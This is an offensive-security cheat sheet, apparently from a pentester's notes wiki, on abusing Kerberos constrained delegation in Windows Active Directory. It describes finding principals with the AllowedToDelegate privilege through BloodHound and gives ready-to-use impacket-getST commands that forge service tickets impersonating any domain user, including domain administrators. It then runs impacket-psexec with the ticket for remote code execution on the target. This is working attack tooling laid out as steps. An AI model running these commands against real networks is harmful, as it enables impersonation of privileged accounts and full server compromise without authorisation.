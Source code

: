 # [Constrained Delegation](https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview)

> Constrained delegation allows a principal to authenticate as any user to specific services on the target computer. That is, a node with this privilege can impersonate any domain principal (including domain administrators) to the specific service on the target host. An issue exists in the constrained delegation implementation where the service name (`sname`) field of the resulting ticket is not part of the protected ticket information, allowing an attacker to modify the target service name to any service of their choice. The result is complete server compromise.

---

## Caveat

A principal with constrained delegation on a particular service/host combination (also referred to as a service principal name or **SPN**) can impersonate any domain principal to that SPN **EXCEPT FOR** users in the `Protected Users` security group or whose constrained delegation privileges have been otherwise revoked.

---

## Determine if a Principal has Constrained Delegation on a SPN

Obtain a domain user's credentials and run [[bloodhound|Bloodhound]]. Select the prebuilt analytic query "Shortest Paths to Unconstrained Delegation Systems." Note the principals that have the `AllowedToDelegate` privilege to the SPN. If a principal has this privilege, then they have constrained delegation on the SPN.

---

## Abuse a Constrained Delegation Privilege to Impersonate a User and Generate a Ticket for Further Use

```bash
impacket-getST $DOMAIN/$USER[:$PASSWORD] -dc-ip $DC_HOSTNAME_OR_IP -spn $SPN -impersonate $USERNAME_TO_IMPERSONATE [-hashes [$LMHASH]:[$NTHASH]]
```

- `$DOMAIN/$USER` is the domain and username of the principal who has the constrained delegation privilege on `$SPN`
- `$PASSWORD` or `$LMHASH` or `$NTHASH` is the credential of the principal who has the constrained delegation privilege on `$SPN`
- `$SPN` format: `$SERVICE/$COMPUTER`
	- Example: `WWW/dc.intelligence.htb`

If the ticket is successfully generated, it will be written to a file in the current directory named `$USERNAME.ccache`. To use this ticket in other `impacket` tools, export the path of the file to the `KRB5CCNAME` environment variable and invoke all future `impacket` tools with th `-k` and `-no-pass` flags.

```bash
export KRB5CCNAME=$USERNAME.ccache
impacket-psexec -k -no-pass $TARGET
```

---

## More Resources

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation